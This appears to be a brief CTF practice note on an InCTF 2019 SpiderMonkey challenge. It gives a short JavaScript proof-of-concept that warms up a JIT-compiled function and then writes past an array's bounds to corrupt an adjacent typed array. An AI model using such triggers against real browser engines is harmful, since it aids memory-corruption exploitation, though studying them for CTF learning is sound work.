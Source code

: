 # Practice  with Poc
It is a javascript challenge come from InCTF 2019
help me understand Spidermonkey structure
```javascript=
blah = new Array()
blah.push(new Array(1.1,1.1))
blah.push(new Uint32Array(0x10))

function trigger(a1,a2){
  blah[0][a1]=1.337;
  for (let i=0; i<100000; i++){}
}

for(var i=0;i<100;i++) trigger(0)
trigger(2)
blah[1]
```

After Poc, it is an oob challenge.
